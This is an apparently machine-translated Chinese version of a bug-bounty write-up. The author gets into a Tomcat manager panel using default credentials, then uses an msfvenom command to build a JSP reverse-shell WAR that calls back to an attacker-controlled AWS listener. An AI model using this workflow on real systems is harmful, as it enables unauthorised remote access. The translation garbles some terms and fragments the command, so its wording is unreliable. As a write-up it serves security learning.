




# 从 TOMCAT 到 NT 权威\系统

> 原文：<https://infosecwriteups.com/from-tomcat-to-nt-authority-system-a79fa09c4abb?source=collection_archive---------0----------------------->

由于工作繁忙，我已经有一段时间没有给虫子发奖金了。

由于隐私问题，我不会透露该计划…

我开始了我的初步侦察，用 KNOCKPY 子列表等做了一些子域枚举..

我得到了一个名为***【test.REDACTED.com】***的子域，没什么好找的，它返回了一个简单的静态 HTML 页面，然后我用 Dirsearch 做了一个目录扫描

**"/经理"**那是一个 TOMCAT 登录

检查它是否使用默认登录更加令人满意

请不要质疑我的电脑名称

还有鼓……..

我们有一个登录

呜哇

现在是打开外壳的时候了，我使用 AWS 服务器作为监听器

使用以下命令可以生成 jsp 有效负载

## MSF venom-p Java/JSP _ shell _ reverse _ TCP LHOST = 18.191 . 1 * *。* LPORT=4444 -f war > shell.war

** *您可以通过将自定义端口添加到入站规则部分来打开它***

现在有了 TCP 处理程序

服务器正在运行 Apache 7.0

在进一步的列举中，我发现服务器是 Microsoft Windows Server 2012，它没有被经常关注，最后一个补丁是在 2016 年(可怜的家伙)

它容易受到 MS16–032 的攻击，我从未试图利用它，因为它可能会激怒一些 DEVS。